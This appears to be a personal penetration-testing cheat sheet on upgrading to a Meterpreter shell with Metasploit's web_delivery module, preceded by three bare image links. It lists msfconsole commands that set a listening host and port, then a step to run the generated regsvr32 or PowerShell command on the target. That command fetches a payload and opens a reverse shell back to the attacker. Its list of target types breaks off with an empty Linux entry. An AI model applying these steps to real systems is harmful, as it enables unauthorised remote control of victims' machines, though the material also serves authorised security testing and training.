



Upgrade to meterpreter shell
1. Generate payload and listen for a connection
msfconsole
use exploit/multi/script/web_delivery
set target 3 #use the regsvr32 (Register Server) command-line utility
set srvhost 172.16.23.10
set lhost 172.16.23.10
set lport 4455 #listening of the meterpreter shell
set ExitOnSession false #listening mode even if a closed meterpreter connection occurs
run -j
2. Run the command generated on the target system
 To get a meterpreter shell back wait 3-4 minutes
Set different Type of Targets• Windows
◇ By setting “target 3” will be generated a command for the regsvr32 (Register Server) command-line utility
◇ By setting “target 2” a powershell command that we will need to execute on the Windows host (also on a cmd shell)
• Linux
Bibliography:
https://www.offensive-security.com/metasploit-unleashed/web-delivery/